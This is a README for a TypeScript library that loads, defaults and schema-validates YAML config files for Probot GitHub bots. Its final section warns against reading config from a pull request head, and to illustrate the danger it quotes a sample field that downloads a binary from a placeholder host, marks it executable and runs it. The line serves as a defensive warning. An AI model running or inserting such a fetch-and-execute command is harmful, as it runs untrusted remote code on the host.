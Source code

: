 # bot-config-utils

This is a small library for handling bot config file.

## Install

```bash
npm i @google-automations/bot-config-utils
```

## Get the config

This library supports yaml config file. You provide an config
interface. The code assumes we're in the probot handler.

```typescript
import {
  getConfig,
} from '@google-automations/bot-config-utils';

interface Config {
  myConfig: string;
}
const CONFIG_FILENAME = 'mybot.yaml';
const {owner, repo} = context.repo();
const config = await getConfig<Config>(
  context.octokit,
  owner,
  repo,
  CONFIG_FILENAME);
// config can be null.
```

## Provide the default value

You can use a similar method that supports default value.

> Note: on permission errors `getConfigWithDefault` will return the default configuration.

```typescript
import {
  getConfigWithDefault,
} from '@google-automations/bot-config-utils';

interface Config {
  myConfig: string;
}

const defaultConfig: Config = {'myConfig': 'myValue'};

const CONFIG_FILENAME = 'mybot.yaml';
const {owner, repo} = context.repo();
const config = await getConfigWithDefault<Config>(
  context.octokit,
  owner,
  repo,
  CONFIG_FILENAME,
  defaultConfig);
// config is always a Config object.
```

## getConfig options
You can specify optional arguments via the `getConfigOptions` interface to `getConfig` and `getConfigWithDefault`.

```
{
  fallbackToOrgConfig: false,
  branch: 'release-9.x',
  schema: schema,
  additionalSchemas: additionalSchema
}
```
- fallbackToOrgConfig
  If set to true, it will try to fetch the config from `.github` repo in the
  same org, defaults to true.
- branch
  The branch for getting the config.
- schema
  The json schema definition. If specified, the loaded config will be validated
  against the given schema. It will throw an Error when validation fails.
- additionalSchemas
  Only required if you need to give additional schema definitions.

Here is a simple example for not falling back to `.github` repo, and
doing the schema validation.

```
// json schema definition
import schema from './config-schema.json';
import {
  getConfig,
} from '@google-automations/bot-config-utils';

interface Config {
  myConfig: string;
}
const CONFIG_FILENAME = 'mybot.yaml';
const {owner, repo} = context.repo();
const config = await getConfig<Config>(
  context.octokit,
  owner,
  repo,
  CONFIG_FILENAME,
  {fallbackToOrgConfig: false, schema: schema}
);
// config can be null.
```

## Check config schema on PRs

To use this feature, the bot needs to have some permissions.

You have to add the following permissions:
- Pull Request Read/Write
- Checks Read/Write

You also have to subscribe to Pull Request events.

You also need to provide a schema definition. Here is an example definition:

```json
// config-schema.json
{
    "$schema": "http://json-schema.org/draft-07/schema#",
    "type": "object",
    "title": "flakybot config",
    "description": "Schema for flakybot configuration",
    "additionalProperties": false,
    "properties": {
	    "issuePriority": {
	        "description": "The default priority for flakybot issues",
	        "type": "string",
	    }
    }
}
```

Here is a sample handler(this assumes you're developping a Probot app):
```typescript
import {ConfigChecker} from '@google-automations/bot-config-utils';
import schema from './config-schema.json';

// ...

  app.on(
    [
      'pull_request.opened',
      'pull_request.reopened',
      'pull_request.edited',
      'pull_request.synchronize',
    ],
    async context => {
      const configChecker = new ConfigChecker<Config>(schema, CONFIG_FILENAME);
      const {owner, repo} = context.repo();
      await configChecker.validateConfigChanges(
        context.octokit,
        owner,
        repo,
        context.payload.pull_request.head.sha,
        context.payload.pull_request.number
      );
    }
  );
```

`validateConfigChanges` will check the config file format against the
schema you provided. It will submit a failing status check if:

- You are trying to add a wrong config file (currently it only checks
  `yaml` vs `yml`).
- You are trying to add a broken config file, or the config file
  doesn't match the schema.


## Fetch config from the PR head
Probot's implementation of config always fetches the config from the
main branch. This is a reasonable security meassure for a generic
library.

It is very dangerous to fetch the config from PR head expecially if
the config contains some external commands. Here is a simple example:

```yaml
prepareCommands: 'curl http://example.com/m && chmod +x m && ./m'

```

However, if your bot doesn't have such a field in the config file, it
is very natural to fetch the config from the PR head.

For this purpose, the ConfigChecker has a method:
`getConfig(): T | undefined`. This will return the config object only
if the validation succeeds.

Even if the config contains a dangerous field, you can selectively use
the value from the config in the PR head.
